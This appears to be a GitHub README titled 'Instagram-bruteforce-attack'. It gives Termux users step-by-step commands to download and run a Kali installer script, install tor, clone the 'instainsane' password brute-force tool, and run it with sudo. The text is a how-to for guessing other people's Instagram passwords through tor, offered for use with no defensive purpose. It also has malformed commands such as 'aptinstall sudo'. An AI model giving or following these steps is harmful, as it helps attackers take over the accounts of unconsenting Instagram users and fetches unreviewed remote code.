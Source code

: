 # Instagram-bruteforce-attack
💻Please On your Desktop Mode💻
✨FOLLOW My Comments✨

*First Step: Copy this👇👇👇👇And paste Termux And Automatic install kali and Just Type Clear And continue Second Step♥️

pkg install wget openssl-tool proot -y && hash -r && wget https://raw.githubusercontent.com/EXALAB/AnLinux-Resources/master/Scripts/Installer/Kali/kali.sh && bash kali.sh 


*Second Step:$./start-kali.sh 

*Third Step:#apt install git 

*Foruth Step:#apt-get install tor
 
*Fiveth Step:#git clone https://github.com/thelinuxchoice/instainsane

*Sixth Step:#ls 

*Seventh Step:#cd instainsane 

*Eighth Step:#chmod +x * 

*Nineth Step:#ls

*Tenth Step:#./install.sh

*Eleventh Step:#aptinstall sudo  

*Twelveth Step:#sudo ./instainsane.sh

🃏Tools Has install🃏



